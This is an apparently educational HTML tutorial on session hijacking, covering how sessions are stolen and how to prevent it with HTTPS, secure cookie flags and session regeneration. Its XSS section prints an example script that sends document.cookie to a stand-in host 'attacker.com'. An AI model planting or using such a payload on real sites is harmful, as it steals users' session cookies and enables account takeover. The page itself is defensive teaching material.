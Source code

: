 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1">
</head>
<body>

  <h1>🕵️‍♂️ Session Hijacking – Stealing Sessions, Not Passwords</h1>

  <h2>👶 For Beginners: What is Session Hijacking?</h2>
  <p>
    Session Hijacking is a type of attack where a hacker steals a user's active session ID and uses it to impersonate them on a web application — without needing their password.
  </p>
  <p>
    💡 Imagine you’ve logged in to your email on a public Wi-Fi. Someone nearby grabs your session key and gains full access to your inbox. You’re still logged in, but so are they — pretending to be you!
  </p>

  <h2>🔐 What is a Session?</h2>
  <p>
    A session is a temporary interaction between a user and a web app — typically after logging in. It's how the server remembers who you are while you browse.
  </p>
  <p>
    The server gives your browser a unique session ID (usually stored in a cookie), which is sent with each request:
  </p>
  <pre><code>Cookie: sessionid=abc123xyz</code></pre>
  <p>
    If someone steals this session ID, they can send it in their own requests and hijack your session.
  </p>

  <h2>⚠️ Why is Session Hijacking Dangerous?</h2>
  <ul>
    <li>🔓 Account Takeover – Full access to personal accounts (email, banking, admin panels)</li>
    <li>📤 Data Theft – Read or export sensitive data</li>
    <li>🎭 Impersonation – Send messages, perform transactions, or change settings as the user</li>
    <li>👣 Silent Attacks – Often goes undetected since no password is required</li>
  </ul>

  <h2>🔍 Common Methods of Session Hijacking</h2>

  <h3>🕸️ 1. Sniffing (Network-based Hijacking)</h3>
  <p>On unencrypted connections (like HTTP), session IDs can be sniffed using tools like Wireshark.</p>
  <p>Common on public Wi-Fi networks.</p>

  <h3>📦 2. Cross-Site Scripting (XSS)</h3>
  <p>Malicious JavaScript can read session cookies and send them to the attacker.</p>
  <pre><code>&lt;script&gt;
  fetch("https://attacker.com/steal?cookie=" + document.cookie);
&lt;/script&gt;</code></pre>

  <h3>🔁 3. Session Fixation</h3>
  <p>Attacker sets a known session ID for the victim, then hijacks it once they log in.</p>

  <h3>🧩 4. Man-in-the-Middle (MITM)</h3>
  <p>Intercepting requests between the user and the server to grab session tokens.</p>

  <h3>🔓 5. Local Access / Cookie Theft</h3>
  <p>Malware, browser extensions, or physical access can reveal session data stored in the browser.</p>

  <h2>🔐 What Does a Hijacked Session Look Like?</h2>
  <pre><code>GET /dashboard HTTP/1.1  
Host: example.com  
Cookie: sessionid=abc123xyz</code></pre>
  <p>If the attacker uses this stolen sessionid, the server will believe it’s the original user — unless protection is in place.</p>

  <h2>🛡️ How to Prevent Session Hijacking</h2>

  <h3>✔️ 1. Use HTTPS Everywhere</h3>
  <p>Encrypts traffic, preventing sniffing and MITM attacks.</p>
  <p>Apply HSTS headers to force HTTPS:</p>
  <pre><code>Strict-Transport-Security: max-age=31536000; includeSubDomains</code></pre>

  <h3>✔️ 2. Secure Cookies</h3>
  <p>Mark session cookies as:</p>
  <ul>
    <li>Secure → only sent over HTTPS</li>
    <li>HttpOnly → inaccessible via JavaScript</li>
    <li>SameSite=Strict → prevents cross-origin leaks</li>
  </ul>
  <pre><code>Set-Cookie: sessionid=abc123; Secure; HttpOnly; SameSite=Strict</code></pre>

  <h3>✔️ 3. Regenerate Session IDs</h3>
  <p>Always generate a new session ID after login to prevent fixation attacks.</p>
  <pre><code>req.session.regenerate(callback);</code></pre>

  <h3>✔️ 4. Enable Session Timeout & Inactivity Expiry</h3>
  <p>Auto-expire idle sessions (e.g., after 15 minutes of inactivity)</p>
  <p>Enforce hard timeouts (e.g., 1-hour session max)</p>

  <h3>✔️ 5. Bind Sessions to User Context</h3>
  <p>Tie session to:</p>
  <ul>
    <li>IP address</li>
    <li>User-Agent string</li>
    <li>Device fingerprint</li>
  </ul>
  <p>If these change drastically, invalidate the session.</p>

  <h3>✔️ 6. Detect Suspicious Session Activity</h3>
  <p>Monitor for:</p>
  <ul>
    <li>Multiple IPs using same session</li>
    <li>Unusual geolocation</li>
    <li>Concurrent logins</li>
  </ul>

  <h2>🚀 Final Thoughts</h2>
  <p>Session Hijacking is dangerous because it lets attackers skip the login screen entirely and jump straight into your account. The weakest link is often session handling, not passwords.</p>
  <p>💡 Protecting your session is just as important as protecting your password.</p>
  <h3>🔐 Always use HTTPS, secure cookies, and smart session management — or risk someone else "logging in" as you.</h3>

</body>
</html>
